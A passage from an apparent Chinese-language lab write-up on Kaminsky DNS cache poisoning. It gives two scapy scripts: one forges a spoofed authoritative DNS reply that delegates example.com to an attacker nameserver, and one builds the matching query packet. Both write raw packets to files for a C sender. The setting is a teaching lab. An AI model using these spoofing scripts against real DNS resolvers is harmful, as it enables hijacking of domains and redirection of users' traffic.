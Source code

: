 ![image-20220430185813103](README.assets/image-20220430185813103.png)

因为scapy python发送回应包的速度太慢，所以我们需要通过python构造数据包，然后c程序读入后进
行发送：  

5.py

```python
from scapy.all import *

targetName="xxxxx.example.com"
targetDomain="example.com"
attackerNS ="ns.xzc.net"

dstIP="172.17.0.3"
srcIP='199.43.135.53'                                    

ip = IP(dst=dstIP,src=srcIP,chksum=0)
udp = UDP(dport=33333,sport=53,chksum=0)

Qdsec = DNSQR(qname=targetName)
Ansec = DNSRR(rrname=targetName,type='A',rdata='1.2.3.4',ttl=259200)
NSsec = DNSRR(rrname=targetDomain,type='NS',rdata=attackerNS,ttl=259200)
dns   = DNS(id=0xAAAA,aa=1,rd=1,qr=1,qdcount=1,ancount=1,nscount=1,arcount=0,qd=Qdsec,an=Ansec,ns=NSsec)
Replypkt = ip/udp/dns

with open('ip.bin','wb') as f:
	f.write(bytes(Replypkt))
```

6.py

```python
#!/usr/bin/python
from scapy.all import *

IPpacket = IP(dst='172.17.0.3', src='172.17.0.2') 
UDPpacket = UDP(sport=33333, dport=53, chksum=0)
targetName = 'twysw.example.com'
Querysection = DNSQR(qname=targetName)
DNSpacket = DNS(rd=1, qdcount=1, qd=Querysection)
QueryPacket = IPpacket/UDPpacket/DNSpacket

with open('ip_req.bin','wb') as f:
    f.write(bytes(QueryPacket))

```
